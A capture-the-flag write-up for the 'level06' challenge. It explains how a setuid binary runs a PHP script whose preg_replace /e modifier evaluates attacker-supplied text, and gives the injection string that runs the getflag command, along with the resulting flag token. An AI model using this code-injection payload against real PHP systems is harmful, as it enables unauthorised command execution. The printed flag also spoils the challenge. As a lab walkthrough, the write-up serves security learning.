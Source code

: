 # level06

- We log as `level06`

- Two files are located inside the home directory of level06:
	>`-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06`
	>`-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php`

- The executable file has extended permissions:
```
# file: level06
# owner: flag06
# group: level06
# flags: s--
user::rwx
group::---
group:level06:r-x
mask::r-x
other::---
```

- We can see that the executable will be executed as `flag06` if we execute it being `level06`

- Upon execution without arguments the executable prints:
	>`PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4`

- That error being a PHP error we try to run the php script with `php ./level06.php`:
	>`PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5`
	>`PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5`
	>`PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4`

- We can see that one of the errors is the same, maybe the executable is running the script

- Upon execution with an argument with `./level06 test` the program prints:
	>`PHP Warning:  file_get_contents(test): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4`

- When trying to execute the php script with `php ./level06 test` it prints:
	>`PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5`
	>`PHP Warning:  file_get_contents(test): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4`

- The similarity between those errors confirm that the executable runs the script.

- Let's take a look to the script:
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

- This script finds patterns inside a file passed as parameter and replace them using the `preg_replace` function

- The `preg_replace` function has a major security issue in versions of PHP older than 5.5.0 due to the `/e` allowing to evaluate the second parameter as PHP code:
	>`preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`

- This line will look for a pattern `[x anything]` and will transform it into `anything`, this value being composed of any character and any length:
	>`(\[x (.*)\])`

- The `anything` element is passed through the second parameter with `\\2` and then passed through the `y` function
	>`y(\"\\2\")`

- This whole parameter being evaluated as PHP code thanks to `/e` we can inject code in the pattern to be run, in a file `/tmp/pwn`, we write
	>`[x ${`\``getflag`\``}]`

- Upon evaluation, the getflag command will be executed thanks to ` ` ` (back quote):
	>`PHP Notice:  Undefined variable: Check flag.Here is your token :`
	>`wiok45aaoguiboiki2tuin6ub`
	>`in /home/user/level06/level06.php(4) : regexp code on line 1`

- We get the flag: wiok45aaoguiboiki2tuin6ub


